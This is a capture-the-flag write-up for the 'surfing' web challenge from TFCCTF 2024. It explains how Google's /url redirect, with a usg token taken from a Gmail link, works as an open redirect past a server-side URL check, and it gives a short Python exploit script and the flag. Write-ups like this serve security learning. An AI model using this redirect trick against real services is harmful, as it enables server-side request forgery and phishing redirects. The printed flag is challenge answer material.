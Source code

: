 ```yaml
---
layout: post
title:  "surfing - TFCCTF 2024"
date:   2024-08-03 00:00:00 -0400
---
```


https://ctftime.org/event/2423

# surfing (web)

Google redirects

## Solution

Very interesting challenge, basically you send an email on gmail to yourself to get the usg parameter.
Then you can use google as a open-redirect.
`#` at the end is needed for some reason.

```python
import requests
from urllib.parse import quote_plus, quote

part2 = "https://ca14-2804-1b3-8146-8451-d3ef-cb85-2b79-23d7.ngrok-free.app&source=gmail&ust=1722697936722000&usg=AOvVaw3Djb1BbeFhNoc5_At0Cbfe#"
part2 = quote_plus(part2)
payload = "http://google.com/url?q=" + part2

burp0_url = "http://challs.tfcctf.com:31595/get"

res = requests.get(burp0_url, params=f'url={payload}', proxies={
    'http': 'http://0.0.0.0:8080',
    'https': 'https://0.0.0.0:8080'
})
print(f"DEBUGPRINT[1]: go.py:6: res.text={res.text}")


```

## Flag
`TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}`

shafouz 2024/08/03
